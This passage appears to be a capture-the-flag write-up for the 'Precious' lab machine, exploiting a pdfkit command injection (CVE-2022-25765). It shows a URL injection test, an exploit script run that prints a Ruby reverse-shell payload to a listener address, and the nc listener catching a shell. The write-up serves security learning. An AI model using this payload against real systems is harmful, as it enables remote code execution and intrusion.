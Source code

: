 ![](../assets/Pasted%20image%2020250507160046.png)

So, adding `?name=%20`sleep 5`" -` to the URL, we can inject a command. Let's use the already made script.

```shell
$ python 51293.py -s 10.10.14.13 80 -w http://precious.htb -p url

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.13","80"))'`
LOCALIP: 10.10.14.13:80
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 80".
WEBSITE: http://precious.htb
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```

Start a listener with `nc`:

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.189] 60590
whoami
ruby
```
